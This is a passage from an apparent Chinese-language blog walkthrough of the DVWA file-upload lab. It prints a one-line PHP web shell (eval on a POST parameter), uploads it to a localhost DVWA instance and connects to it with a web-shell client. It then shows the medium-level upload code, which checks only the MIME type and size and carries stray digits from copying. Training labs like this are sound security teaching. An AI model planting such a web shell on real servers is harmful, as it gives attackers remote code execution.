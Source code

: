 可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。  

如果上传成功，则会提示  路径+succesfully uploaded! 如果上传失败，则会提示 Your image was not uploaded。  

我们可以写一句话木马 1.php ，上传



```
<?php   @eval($_POST['xie']);  ?>
```




![](https://img-blog.csdn.net/20180930083241185?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



 可以看到，我们的一句话木马已经成功上传了，接下来我们就可以用菜刀连接了。 连接的url是



[http://127.0.0.1/hackable/uploads/1.php](http://127.0.0.1/hackable/uploads/1.php)



![](https://img-blog.csdn.net/2018093008360325?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



Medium:

-------



源代码：



```
<?php      
if( isset( $_POST[ 'Upload' ] ) ) {      
    // Where are we going to be writing to?      
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";      
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );      
    // File information      
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];      
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];      
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];      1
    // Is it an image?      1
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&      1
        ( $uploaded_size < 100000 ) ) {      1
        // Can we move the file to the upload folder?      1
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {      1
            // No      1
            echo '<pre>Your image was not uploaded.</pre>';      1
        }      1
        else {      1
            // Yes!      2
            echo "<pre>{$target_path} succesfully uploaded!</pre>";      2
        }      2
    }      2
    else {      2
        // Invalid file      2
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';      2
    }      2
}      2
?>
```
